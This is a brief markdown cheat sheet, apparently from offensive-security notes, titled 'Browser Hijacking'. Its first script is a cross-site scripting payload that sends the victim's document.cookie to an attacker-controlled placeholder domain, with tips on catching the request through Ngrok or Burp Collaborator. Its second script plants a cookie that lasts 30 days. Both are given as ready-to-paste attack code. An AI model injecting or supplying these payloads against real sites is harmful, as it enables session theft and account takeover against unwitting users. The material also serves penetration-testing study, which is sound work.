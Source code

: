 # Browser Hijacking
## Stealing Cookies
**Does not work for HTTP-Only cookies**
**Use Ngrok, or Burp Collaborator**
```
<script>
var req = new XMLHttpRequest();
req.open('GET', '<DOMAIN>/'+document.cookie, false);
req.send();
</script>
```

## Setting Cookies
**Only works in HTTPS**
```
<script>
var today = new Date();
var expiry = new Date(today.getTime() + 30 * 24 * 3600 * 1000); // plus 30 days
document.cookie = "<NAME>=<VALUE>; path=/; expires="+expiry.toGMTString()+";SameSite=Lax"
</script>
```